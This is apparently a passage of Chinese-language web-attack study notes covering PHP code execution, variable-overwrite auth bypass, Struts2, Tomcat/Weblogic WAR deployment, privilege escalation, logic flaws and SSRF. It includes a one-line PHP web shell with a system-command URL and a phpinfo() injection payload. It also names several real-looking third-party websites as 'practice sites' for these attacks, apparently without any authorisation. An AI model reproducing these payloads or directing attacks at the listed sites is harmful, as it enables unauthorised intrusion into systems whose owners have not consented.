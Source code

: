 ```
$a=$_GET[‘a’];
$b=$_GET[‘b’];
$a($b);
?>
```  
http://xx.com/x.php?a=system&b=ipconfig
练习站点：（海洋cms）  
http://www.kudian365.com/search.php?  
www.77dvd.com  
www.bgdyhd.com(www.bgdyhd.com/search.php?searchtype=5&tid=&area=phpinfo())  
https://www.piaohuatv.tv/search.php?searchtype=5&tid=&area=phpinfo()  
**变量覆盖漏洞**    
```
<?php
$auth=’0’;
Extract($_GET)；
If($auth=’1’){
Echo “登陆成功”；
}else{
Echo “你还没登陆，请重新登陆”；
?>
```  
改变auth的值，绕过认证  
```
xx.com/a.php?auth=1
```  
也可以二次安装


### Jsp相关漏洞(权限相对较高)

**Struts2漏洞**  
大型企业，等等  
如何挖掘：后缀：.do,.action ;登陆，注册，留言的地方  
Checklog.action xx.action  
工具：k8 struts2 exp  
测试站点：  
http://oa.lzlqc.com/userLogin.action  
**Java反序列**  
工具：Java反序列化测试工具
**Tomcat部署漏洞**   
Tomcat\conf\server.xml  
有的管理员自己都没设置，所以最后没办法再测  
如果能进入管理界面，上传文件war，部署  
**Weblogic攻击**  
Weblogic管理端口  
http：7001,https：7002   
Inurl：console  
上传war包，部署，和tomcat相同  
**越权漏洞**  
水平越权  
纵向越权  
如何挖掘：数据交互的地方，用户操作的地方，参数可控制的地方。Burp抓包，改包
**逻辑漏洞**  
密码找回，支付漏洞。验证码爆破  
如何挖掘：数据交互的地方，用户操作的地方，参数可控制的地方  
后台登陆验证，响应包改为true  
Burp：do intercept->response to this request->forward  
Burp抓包，改包  
**ssrf跨站**  
image=其他站点调用